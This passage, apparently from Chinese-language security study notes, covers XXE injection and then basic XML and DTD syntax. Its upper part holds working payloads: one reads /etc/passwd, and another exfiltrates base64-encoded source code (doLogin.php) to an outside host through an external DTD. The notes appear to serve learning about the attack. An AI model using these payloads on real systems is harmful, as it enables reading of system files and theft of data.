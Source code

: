 ```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note[
<!ENTITY  test SYSTEM "file:///etc/passwd">
]>
&test;
```

##### b. 用途

> 1. XXE的扩展利用
> 2. 内网探测机器开放端口
> 3. 进行内网探测

#### (2). 无回显

* 采用数据外带的方式

```xml-dtd
<!--1.dtd文件内容-->
<!ENTITY % x SYSTEM "php://filter/read-convert.base64-encode/resource=doLogin.php">
<!ENTITY % y "<!ENTITY &#37; z SYSTEM 'http://192.168.71.57/?data=%x'>">

<!--payload-->
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE abc [<!ENTITY % a SYSTEM "http://192.168.71.57/xxe/2.dtd">
%a;%y;%z;
]>

%x;
```

### 7. XML基础

#### (1). 语法结构

* 分为2部分，一部分是**标签的定义**，一部分是**标签的解释**(DTD，Document Type Defination)

  ![XML语法结构](http://113.45.142.235:9001/laffrex/pictures/XML%E8%AF%AD%E6%B3%95%E7%BB%93%E6%9E%84.png)

#### (2). DTD文档

##### a. 概述

1. DTD使数据格式之间**按照相同的标准来传输**
2. DTD是一种XML**约束模式**语言，用来**解释XML文档**

##### b. 类型

* **内部**DTD文档和**外部**DTD文档

##### c. 语法结构

###### ①内部DTD

* ```dtd
  <!DOCTYPE 根元素[定义内容]>
  ```

  ![DTD内部文档语法结构](http://113.45.142.235:9001/laffrex/pictures/DTD内部文档语法结构.png)

###### ②外部DTD

* 使用**system**关键字

* ```dtd
  <!DOCTYPE 根元素 SYSTEM "DTD文件路径">
  ```
